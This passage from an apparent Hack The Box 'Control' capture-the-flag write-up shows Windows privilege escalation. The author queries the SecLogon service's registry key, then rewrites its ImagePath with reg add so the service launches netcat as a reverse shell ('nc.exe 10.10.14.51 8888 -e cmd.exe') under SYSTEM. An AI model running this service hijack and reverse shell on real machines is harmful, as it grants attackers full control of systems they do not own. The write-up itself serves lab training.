 I can't edit the service with `sc config`, probably because some permissions have been changed on the machine but I can change the same settings using `reg add`. After looking for a long time, I found the `SecLogon` service which satifies the conditions stated above.

```
C:\Users\Hector\Documents>sc query seclogon
sc query seclogon

SERVICE_NAME: seclogon 
        TYPE               : 20  WIN32_SHARE_PROCESS  
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

```
C:\Users\Hector\Documents>reg query HKLM\System\CurrentControlSet\Services\seclogon

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\seclogon
    Description    REG_SZ    @%SystemRoot%\system32\seclogon.dll,-7000
    DisplayName    REG_SZ    @%SystemRoot%\system32\seclogon.dll,-7001
    ErrorControl    REG_DWORD    0x1
    FailureActions    REG_BINARY    805101000000000000000000030000001400000001000000C0D4010001000000E09304000000000000000000
    ImagePath    REG_EXPAND_SZ    %windir%\system32\svchost.exe -k netsvcs -p
    ObjectName    REG_SZ    LocalSystem
    RequiredPrivileges    REG_MULTI_SZ    SeTcbPrivilege\0SeRestorePrivilege\0SeBackupPrivilege\0SeAssignPrimaryTokenPrivilege\0SeIncreaseQuotaPrivilege\0SeImpersonatePrivilege
    Start    REG_DWORD    0x3
    Type    REG_DWORD    0x20
```

I'll change the ImagePath of the service so it runs my netcat as SYSTEM.

```
C:\Users\Hector\Documents>reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "c:\windows\system32\spool\drivers\color\nc.exe 10.10.14.51 8888 -e cmd.exe" /f

The operation completed successfully.

C:\Users\Hector\Documents>sc start seclogon
```

![](/assets/images/htb-writeup-control/root.png)
